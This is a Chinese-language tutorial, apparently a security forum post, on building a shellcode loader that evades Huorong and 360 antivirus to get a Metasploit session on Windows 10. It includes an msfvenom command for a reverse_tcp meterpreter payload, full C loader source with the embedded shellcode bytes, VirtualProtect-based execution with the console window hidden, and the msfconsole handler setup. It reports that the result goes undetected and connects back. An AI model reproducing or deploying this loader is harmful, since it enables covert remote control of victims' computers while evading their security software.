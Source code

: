 0x0前言
=====

通过分离shellcode和loader绕过火绒和安全卫士上线msf。  
环境:  
攻击机:kali  
受害者:win10  
编译器:visual studio2022

0x1生成shellcode
==============

先用msfvenom工具生成一串shellcode，-p参数是回连的载荷这里是32位的(注意如果是32位的载荷，需要修改编译的版本为x86)，-b参数在生成的shellcode中不带有\\x00，lhost是shellcode回连的ip，lport是回连端口。

```php
msfvenom -p windows/meterpreter/reverse_tcp -b '\x00' lhost=192.168.1.14 lport=6666 -f c
```

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-118fa119e2c36267e521a29edb81540aa326f6bf.png)

0x2代码加载shellcode
================

思路:将shellcode写入文件，执行时在读取进来，虽然在代码里有存在shellcode但是只是将它写到文件里面并没有执行它，执行的是我们从文件中读取的内容。  
代码如下:

```php
#include <stdio.h>
#include <windows.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
char buf[] =
"\xbd\xaa\x9d\x4d\x7b\xda\xc1\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x59\x31\x6e\x14\x83\xc6\x04\x03\x6e\x10\x48\x68\xb1\x93\x03"
"\x93\x4a\x64\x7b\x1d\xaf\x55\xa9\x79\xbb\xc4\x7d\x09\xe9\xe4"
"\xf6\x5f\x1a\xc4\xf7\x6f\x95\x6c\x21\xfb\xab\x58\x1c\x3b\xe7"
"\xa5\x3f\xc7\xfa\xf9\x9f\xf6\x34\x0c\xde\x3f\x83\x7a\x0f\xed"
"\x9f\xd7\xdf\x45\x2b\x95\xe3\x68\xfb\x91\x5b\x13\x7e\x65\x2f"
"\xaf\x81\xb6\x44\x67\x9a\x66\xd1\x20\xba\x87\x36\x55\x73\xf3"
"\x84\x1f\xb5\x03\x7f\xab\x3e\xfa\xa9\xe5\x80\x3c\x9a\x0b\xad"
"\xbe\xe3\x2c\x4d\xb5\x1f\x4f\xf0\xce\xe4\x2d\x2e\x5a\xfa\x96"
"\xa5\xfc\xde\x27\x69\x9a\x95\x24\xc6\xe8\xf1\x28\xd9\x3d\x8a"
"\x55\x52\xc0\x5c\xdc\x20\xe7\x78\x84\xf3\x86\xd9\x60\x55\xb6"
"\x39\xcc\x0a\x12\x32\xff\x5d\x22\xbb\xff\x61\x7e\x2b\x33\xac"
"\x81\xab\x5b\xa7\xf2\x99\xc4\x13\x9d\x91\x8d\xbd\x5a\xa0\x9a"
"\x3d\xb4\x0a\xca\xc3\x35\x6a\xc2\x07\x61\x3a\x7c\xa1\x0a\xd1"
"\x7c\x4e\xdf\x4f\x77\xd8\x20\x27\x86\x16\xc9\x35\x89\x3c\x03"
"\xb0\x6f\x10\x43\x92\x3f\xd1\x33\x52\x90\xb9\x59\x5d\xcf\xda"
"\x61\xb4\x78\x70\x8e\x60\xd0\xed\x37\x29\xaa\x8c\xb8\xe4\xd6"
"\x8f\x33\x0c\x26\x41\xb4\x65\x34\xb6\xa3\x85\xc4\x47\x46\x85"
"\xae\x43\xc0\xd2\x46\x4e\x35\x14\xc9\xb1\x10\x27\x0e\x4d\xe5"
"\x11\x64\x78\x73\x1d\x12\x85\x93\x9d\xe2\xd3\xf9\x9d\x8a\x83"
"\x59\xce\xaf\xcb\x77\x63\x7c\x5e\x78\xd5\xd0\xc9\x10\xdb\x0f"
"\x3d\xbf\x24\x7a\x3d\xb8\xda\xf8\x6a\x61\xb2\x02\x2b\x91\x42"
"\x69\xab\xc1\x2a\x66\x84\xee\x9a\x87\x0f\xa7\xb2\x02\xde\x05"
"\x23\x12\xcb\xc8\xfd\x13\xf8\xd0\x0e\x69\x71\xe6\xef\x8e\x9b"
"\x83\xf0\x8e\xa3\xb5\xcd\x58\x9a\xc3\x10\x59\x99\xdc\x27\xfc"
"\x88\x76\x47\x52\xca\x52";

int main()
{

    FILE* fp1 = fopen("new.txt", "wb");
    fprintf(fp1, buf);
    fclose(fp1);

    FILE* fp = fopen("new.txt", "rb");
    fseek(fp, 0, SEEK_END);
    char* ptr = (char*)malloc(sizeof(buf));
    int size = ftell(fp);
    rewind(fp);
    memset(ptr, 0, sizeof(buf));
    fread(ptr, sizeof(buf), 1, fp); 

    char* start = (char*)malloc(sizeof(buf));
    memset(start, 0, sizeof(buf));
    memcpy(start, ptr, sizeof(buf));
    DWORD i = 0;
    VirtualProtect(start, sizeof(buf), PAGE_EXECUTE_READWRITE, &i);
    ((char(*)())start)();

}
```

0x3代码解释
=======

```php
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
```

因为我这里用的项目是控制台程序，在运行的时候会弹出来一个黑框，这行代码主要作用是不让这个黑框弹出来。

- - - - - -

这里是我们刚才生成的shellcode，其实就是一个16进制的数组，这里没有用无符号类型来定义，但是在内存中无符号和有符号的值是一样的。

```php
char buf[] =
"\xbd\xaa\x9d\x4d\x7b\xda\xc1\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x59\x31\x6e\x14\x83\xc6\x04\x03\x6e\x10\x48\x68\xb1\x93\x03"
"\x93\x4a\x64\x7b\x1d\xaf\x55\xa9\x79\xbb\xc4\x7d\x09\xe9\xe4"
"\xf6\x5f\x1a\xc4\xf7\x6f\x95\x6c\x21\xfb\xab\x58\x1c\x3b\xe7"
"\xa5\x3f\xc7\xfa\xf9\x9f\xf6\x34\x0c\xde\x3f\x83\x7a\x0f\xed"
"\x9f\xd7\xdf\x45\x2b\x95\xe3\x68\xfb\x91\x5b\x13\x7e\x65\x2f"
"\xaf\x81\xb6\x44\x67\x9a\x66\xd1\x20\xba\x87\x36\x55\x73\xf3"
"\x84\x1f\xb5\x03\x7f\xab\x3e\xfa\xa9\xe5\x80\x3c\x9a\x0b\xad"
"\xbe\xe3\x2c\x4d\xb5\x1f\x4f\xf0\xce\xe4\x2d\x2e\x5a\xfa\x96"
"\xa5\xfc\xde\x27\x69\x9a\x95\x24\xc6\xe8\xf1\x28\xd9\x3d\x8a"
"\x55\x52\xc0\x5c\xdc\x20\xe7\x78\x84\xf3\x86\xd9\x60\x55\xb6"
"\x39\xcc\x0a\x12\x32\xff\x5d\x22\xbb\xff\x61\x7e\x2b\x33\xac"
"\x81\xab\x5b\xa7\xf2\x99\xc4\x13\x9d\x91\x8d\xbd\x5a\xa0\x9a"
"\x3d\xb4\x0a\xca\xc3\x35\x6a\xc2\x07\x61\x3a\x7c\xa1\x0a\xd1"
"\x7c\x4e\xdf\x4f\x77\xd8\x20\x27\x86\x16\xc9\x35\x89\x3c\x03"
"\xb0\x6f\x10\x43\x92\x3f\xd1\x33\x52\x90\xb9\x59\x5d\xcf\xda"
"\x61\xb4\x78\x70\x8e\x60\xd0\xed\x37\x29\xaa\x8c\xb8\xe4\xd6"
"\x8f\x33\x0c\x26\x41\xb4\x65\x34\xb6\xa3\x85\xc4\x47\x46\x85"
"\xae\x43\xc0\xd2\x46\x4e\x35\x14\xc9\xb1\x10\x27\x0e\x4d\xe5"
"\x11\x64\x78\x73\x1d\x12\x85\x93\x9d\xe2\xd3\xf9\x9d\x8a\x83"
"\x59\xce\xaf\xcb\x77\x63\x7c\x5e\x78\xd5\xd0\xc9\x10\xdb\x0f"
"\x3d\xbf\x24\x7a\x3d\xb8\xda\xf8\x6a\x61\xb2\x02\x2b\x91\x42"
"\x69\xab\xc1\x2a\x66\x84\xee\x9a\x87\x0f\xa7\xb2\x02\xde\x05"
"\x23\x12\xcb\xc8\xfd\x13\xf8\xd0\x0e\x69\x71\xe6\xef\x8e\x9b"
"\x83\xf0\x8e\xa3\xb5\xcd\x58\x9a\xc3\x10\x59\x99\xdc\x27\xfc"
"\x88\x76\x47\x52\xca\x52";
```

int main()是程序入口，代码从这里开始执行。

FILE\* fp1是定义一个结构体类型的指针，里面存放着与文件有关的信息，如文件句柄、位置指针及缓冲区等，fopen第一个参数是要打开的文件名，第二个参数是打开文件的模式，wb是如果不存在此文件就创建一个。

fprintf是将buf里的的内容输出到文件里，简单的说就是打开一个文件，如果不存在就创建它，把buf这个地址里的内容输出到这个文件里,输出完就关闭这个文件。

```php
    FILE* fp1 = fopen("new.txt", "wb");//打开文件，不存在就创建它
    fprintf(fp1, buf);//将shellcode输出到这个文件里
    fclose(fp1);//关闭这个文件
```

至此，把shellcode保存到文件的代码已经完成，下面来说从文件里读取shellcode。

第一行代码还是定义一个文件指针，打开我们刚才包含shellcode的文件这里模式是rb也就是可读可写。fseek是将文件流从开头移动到末尾。

```php
FILE* fp = fopen("new.txt", "rb");
fseek(fp, 0, SEEK_END);
```

定义一个char\*类型的指针。  
malloc函数是申请一块内存，只有一个参数，就是申请内存大小，这里用sizeof（buf）来计算shellcode的大小。  
简单地说就是定义一个指针指向我们用malloc申请空间的地址，ftell计算文件大小将结果返回给size。

```php
char* ptr = (char*)malloc(sizeof(buf));
int size = ftell(fp);
```

rewind函数是将我们的文件流重定位到文件开头，因为上面的fseek函数已将将流定位到文件末尾了，但是我们还需要从文件里读取shellcode，所以需要将文件流重定位到开头。

memset函数是填充数据，第一个参数是从哪里开始填充，第二个参数是用什么填充，第三个参数是填充多少字符。

fread是从文件读取数据到内存，第一个参数是读取的内容放到内存的哪里，第二个参数是放多少字节，第三个是放几次，最后一个是文件指针。

代码大概意思是把文件流重定位到文件内容的开头然后把上面malloc申请的内存空间全部用0填充，在读取文件内容放到申请的内存空间里。

```php
rewind(fp);
memset(ptr, 0, sizeof(buf));
fread(ptr, sizeof(buf), 1, fp); 
```

第一行和第二行就不多解释了，还是申请内存定义个指针指向申请的内存，然后将申请的内存空间全部用0填充。  
memcpy复制内存中的数据，第一个参数是复制到哪里，第二个参数是从哪里开始复制，第三个参数是复制多少字节。

```php
    char* start = (char*)malloc(sizeof(buf));
    memset(start, 0, sizeof(buf));
    memcpy(start, ptr, sizeof(buf));
```

第一行是定义一个变量，保存内存的原始属性，供VirtualProtect使用。  
VirtualProtect函数是修改内存的属性，第一个参数是从哪里修改，第二个是修改多少字节，第三个参数是要修改成什么属性PAGE\_EXECUTE\_READWRITE是可读可写可执行，最后一个参数,内存原始的属性保存的地址。

因为malloc申请的内存是没有执行权限的所以要修改这块内存的权限让我们的shellcode可以执行。

最后一行是一个函数指针，来执行这块内存，函数指针其实就是一个指向函数的指针，可以通过这个指针来调用我们的函数。

```php
DWORD i = 0;
VirtualProtect(start, sizeof(buf), PAGE_EXECUTE_READWRITE, &i);
((char(*)())start)();
```

0x4测试
=====

现在加载器已经写好了，我们来启动msf设置监听。

```php
msfconsole//启动msf
use exploit/multi/handler//进入监听模块
set lhost 192.168.1.14//设置本机的ip
set lport 6666//监听的端口
run//开始监听
```

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-187edcc52f5abccd8905e529bed353b996023a2f.png)  
现在我们来生成exe

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-ce3f315833b021434384f74f72f1ce03e4640d50.png)

没有报毒，执行下看看,可正常上线，这里为了方便就弹出了黑窗口。

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-8f41a373a24fc2cee4c61185cd3dbfbceabb6957.png)

0x5总结
=====

将shellcode写入文件-&gt;从文件读取shellcode-&gt;分配内存-&gt;把shellcode复制到申请的内存里-&gt;更改内存的属性为可执行-&gt;函数指针执行shellcode。  
函数指针其实就是一个指向函数的指针，可以通过这个指针来调用我们的函数。

- - - - - -

由于作者水平有限，文章如有错误欢迎指出。